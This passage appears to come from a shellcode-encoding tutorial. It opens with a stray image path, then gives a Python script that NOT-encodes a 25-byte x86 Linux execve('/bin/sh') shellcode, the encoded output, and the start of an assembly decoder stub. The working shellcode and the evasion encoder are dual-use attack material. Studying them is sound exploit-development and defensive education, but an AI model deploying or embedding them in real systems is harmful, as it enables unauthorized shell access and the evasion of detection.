 ```py
#!/usr/bin/python

# Python Complement Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
        # Complement Encoding   
        y = ~x

        encoded += '\\x'
        encoded += '%02x' % (y & 0xff)

        encoded2 += '0x'
        encoded2 += '%02x,' %(y & 0xff)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

and all this does is it complements and then it prints it in format
which we can use. Let's run `Encoder.py`

```
$ ./Encoder.py 
Encoded shellcode ...
\xce\x3f\xaf\x97\xd0\xd0\x8c\x97\x97\xd0\x9d\x96\x91\x76\x1c\xaf\x76\x1d\xac\x76\x1e\x4f\xf4\x32\x7f
0xce,0x3f,0xaf,0x97,0xd0,0xd0,0x8c,0x97,0x97,0xd0,0x9d,0x96,0x91,0x76,0x1c,0xaf,0x76,0x1d,0xac,0x76,0x1e,0x4f,0xf4,0x32,0x7f,
Len: 25
```

Now let's check that there are no NULL values in our shellcode.
After that let's write our NOT encoder.

```asm
global _start

section .text
_start:



        EncodedShellcode: db 0xce,0x3f,0xaf,0x97,0xd0,0xd0,0x8c,0x97,0x97,0xd0,0x9d,0x96,0x91,0x76,0x1c,0xaf,0x76,0x1d,0xac,0x76,0x1e,0x4f,0xf4,0x32,0x7f
```
